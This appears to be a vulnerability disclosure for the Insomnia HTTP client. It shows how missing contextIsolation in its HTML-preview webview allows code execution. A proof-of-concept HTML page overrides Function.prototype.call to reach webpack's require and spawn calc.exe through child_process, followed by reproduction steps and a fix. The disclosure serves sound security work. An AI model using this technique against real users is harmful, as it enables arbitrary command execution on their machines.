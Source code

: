 Practically this needs many steps from a potential victim and can be considered a more theretical example.
However, this is just one possible execution chain, there might be further "gadgets" which would allow code execution even without any user interaction at all.


### Steps to Reproduce

1. Start a local webserver which serves the following HTML-file:
```html
<html>
<head>
<script>
const handler = {
  apply: function(target, thisArg, argumentsList) {
    console.log(target, thisArg, argumentsList);
    if (argumentsList.length === 4 && argumentsList[3].name === "__webpack_require__") {
        argumentsList[3].m.module(Array.prototype)
        Array.prototype.exports.createRequire("/")("child_process").spawnSync("calc.exe")
    }
    return Reflect.apply(target, thisArg, argumentsList);
  }
};
Function.prototype.call = new Proxy(Function.prototype.call, handler);
</script>
</head>
<body>
<textarea contenteditable spellcheck="true">
clck and correkt mee
</textarea>
test.html
</body>
</html>
```

2. In Insomnia create a new request targeting the URL where the file from step 1 is located.

3. Send the request.

4. Right click on a misspelled word in the textarea and then click on one of the suggested words in the contextmenu.

![PoC - missing contextIsolation](rce-missing-contextisolation.mp4)

### Suggested Solution

The option `contextIsolation` should be set to `true`, especially in the webview for rendering HTML previews of HTTP-responses.
See: https://www.electronjs.org/docs/tutorial/security#3-enable-context-isolation-for-remote-content




---
